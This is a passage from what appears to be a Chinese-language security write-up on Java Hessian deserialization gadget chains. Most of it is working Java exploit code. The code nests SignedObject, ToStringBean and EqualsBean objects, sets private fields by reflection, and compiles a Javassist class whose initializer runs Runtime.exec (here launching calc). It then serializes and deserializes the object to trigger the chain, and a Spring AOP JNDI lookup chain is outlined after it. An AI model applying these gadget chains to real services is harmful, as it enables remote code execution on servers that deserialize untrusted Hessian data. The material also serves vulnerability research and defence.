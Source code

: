 ```plain
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(hashMap, kp.getPrivate(), Signature.getInstance("DSA"));
        ToStringBean toStringBean_sign=new ToStringBean(SignedObject.class,signedObject);
        EqualsBean equalsBean_sign=new EqualsBean(String.class,"aiwin");
        HashMap hashMap_sign=new HashMap();
        hashMap_sign.put(equalsBean_sign,"aaa");
        setValue(equalsBean_sign,"_beanClass",ToStringBean.class);
        setValue(equalsBean_sign,"_obj",toStringBean_sign);
        String result=Hessian_serialize(hashMap_sign);
        Hessian_unserialize(result);

    }
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static byte[] getTemplates() throws IOException, CannotCompileException, NotFoundException {
        ClassPool classPool=ClassPool.getDefault();
        CtClass ctClass=classPool.makeClass("Test");
        ctClass.setSuperclass(classPool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet"));
        String block = "Runtime.getRuntime().exec(\"calc\");";
        ctClass.makeClassInitializer().insertBefore(block);
        return ctClass.toBytecode();
    }
    public static String Hessian_serialize(Object object) throws IOException {
        ByteArrayOutputStream byteArrayOutputStream=new ByteArrayOutputStream();
        HessianOutput hessianOutput=new HessianOutput(byteArrayOutputStream);
        hessianOutput.writeObject(object);
        return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
    }

    public static void Hessian_unserialize(String obj) throws IOException {
        byte[] code=Base64.getDecoder().decode(obj);
        ByteArrayInputStream byteArrayInputStream=new ByteArrayInputStream(code);
        HessianInput hessianInput=new HessianInput(byteArrayInputStream);
        hessianInput.readObject();
    }
}
```

> 同样 JdbcRowSetImpl 等常规链子也是可以的

## Spring AOP

利用链

```plain
Hessian#readObject()->
    hashMap.putVal()->
        hotSwappableTargetSource#equals()->
            AbstractPointcutAdvisor#equals()->
                AbstractBeanFactoryPointcutAdvisor#getAdvice()
                    SimpleJndiBeanFactory#getBean()->
                        lookup()
```

